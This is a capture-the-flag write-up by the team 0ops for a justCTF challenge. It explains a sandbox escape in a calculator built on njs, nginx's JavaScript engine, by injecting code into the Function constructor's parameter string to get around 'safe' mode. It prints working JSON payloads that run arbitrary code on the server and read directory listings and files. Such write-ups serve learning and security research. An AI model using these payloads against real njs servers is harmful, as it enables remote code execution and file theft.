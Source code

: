 # njs Writeup by 0ops

In this challenge we have a simple calculator running on njs, a javascript engine for nginx. After reading the source code we can know that the result is calculated by chaining a series of function calls inside class Calculator. Notice the toString function:

```
Calculator.prototype.toString = function(prop) {
    if(prop) {
        return this.result[prop]
    }
    return this.result;
};
```

We can leverage this function to get any child of `this.result`, then assign it back to `this.result`. 

Just as other js sandbox escaping challenges, we start by finding a way to get a function constructor, which could give us a chance to run arbitrary script. This could be done by using `[{"op":"toString","x":"constructor","y":""},{"op":"toString","x":"constructor","y":""}]`, which literally means `calc.result.constructor.constructor`. Then we use `addEquation` to call this constructor function with two parameters. The first one is the parameter of the function, and the second is the code that we want to execute: 

```
[{"op":"toString","x":"constructor","y":""},{"op":"toString","x":"constructor","y":""},{"op":"result","x":"a,b","y":"return 114514"}]
```

But the function could not be created and the engine raised error `TypeError: function constructor is disabled in "safe" mode`. We should quickly realize that some code audit might be helpful to bypass this restriction. Searching the error message led us to the implementation in https://github.com/nginx/njs/blob/0.4.4/src/njs_function.c#L894. Njs made an exception for `new Function('return this')`, which is often used to get the global object in a portable way. This means the last parameter of the function constructor must be `return this`, leaving us only the first parameter controllable. So, how njs creates a function? This piece of code shows us the answer:

```
njs_chb_append_literal(&chain, "(function(");

for (i = 1; i < nargs - 1; i++) {
    ret = njs_value_to_chain(vm, &chain, njs_argument(args, i));
    if (njs_slow_path(ret < NJS_OK)) {
        return ret;
    }

    if (i != (nargs - 2)) {
        njs_chb_append_literal(&chain, ",");
    }
}

njs_chb_append_literal(&chain, "){");

ret = njs_value_to_chain(vm, &chain, njs_argument(args, nargs - 1));
if (njs_slow_path(ret < NJS_OK)) {
    return ret;
}

njs_chb_append_literal(&chain, "})");
```

Without any filtering, the first parameter of the constructor is appended right after "(function(" and before "){", giving us a chance to close the bracket and inject code into the parameter field. After a bit of fuzzing, we finally can get our code run in the server:

```
[{"op":"toString","x":"constructor","y":""},{"op":"toString","x":"constructor","y":""},{"op":"result","x":"a,b){/*your code here*/}+function(","y":"return this"},{"op":"result","x":"","y":""}]
```

Then we can use readdirSync() and readFileSync() to read the flag out. The final exploit is

```
First request to get the filename of the flag:
[{"op":"toString","x":"constructor","y":""},{"op":"toString","x":"constructor","y":""},{"op":"result","x":"a1,b1){return require('fs').readdirSync('/home/')}+function(","y":"return this"},{"op":"result","x":"","y":""}]

Second request to capture the flag:
[{"op":"toString","x":"constructor","y":""},{"op":"toString","x":"constructor","y":""},{"op":"result","x":"a2,b2){return require('fs').readFileSync('/home/RealFlagIsHere1337.txt')}+function(","y":"return this"},{"op":"result","x":"","y":""}]
```

Flag: `justCTF{manny_manny_bugs_can_hide_in_this_engine!!!}`